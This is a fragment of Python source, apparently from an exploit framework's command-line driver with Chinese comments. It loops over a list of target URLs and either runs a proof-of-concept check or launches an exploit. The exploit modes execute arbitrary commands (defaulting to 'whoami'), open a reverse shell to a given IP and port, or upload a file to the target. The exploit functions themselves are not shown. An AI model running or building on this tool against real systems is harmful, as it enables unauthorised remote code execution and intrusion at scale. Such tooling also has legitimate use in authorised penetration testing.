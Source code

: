 ```
        f.close()
        all_url = str(file_Data).splitlines()
    else:
        all_url.append(hp.url)

    if hp.mode =='poc':
        for i in all_url:
            _url = urlparse(i)
            # print(_url)
            hostname = _url.hostname
            port = _url.port
            scheme = _url.scheme
            result = do_poc(i,hostname,port,scheme)
            print("[*] URL:"+i+"\n[+] 检测结果:"+("Success" if result.get("Result") else "Faile")+"\t返回信息:"+result.get("Result_Info")+"\n" )

    elif vuln_info.get('isexp'):
        if hp.mode =='cmd':
            exp_data=  {
                "type":"cmd",  #cmd,shell,uploadfile
                "command":hp.cmd  #cmd命令
            }
        elif hp.mode =='shell':
            exp_data=  {
                "type":"shell",  #cmd,shell,uploadfile
                "reverse_ip":hp.shell.split(":")[0], #反弹shell的ip
                "reverse_port":hp.shell.split(":")[1] #反弹shell的端口
            }
        elif hp.mode =='upload':
            try:
                filedata_=open(hp.upload,encoding="utf-8").read()
            except:
                filedata_=open(hp.upload,encoding="gb2312").read()
            exp_data=  {
                "type":"uploadfile",  #cmd,shell,uploadfile
                "filename":os.path.basename(hp.upload),
                "filename_contents":filedata_
            }
        else:
            exp_data=  {
                "type":"cmd",  #cmd,shell,uploadfile
                "command":"whoami",  #cmd命令
            }
        for i in all_url:
            _url = urlparse(i)
            # print(_url)
            hostname = _url.hostname
            port = _url.port
            scheme = _url.scheme
            result = do_exp(i,hostname,port,scheme,heads={},exp_data=exp_data)
            print("[*] URL:"+i+"\n[+] 执行结果:"+("Success" if result.get("Result") else "Faile")+"\n"+result.get("Result_Info")+"\n")
    else:
        print("[E] 该漏洞没有EXP！")
    print("[*] 运行完毕！")
```
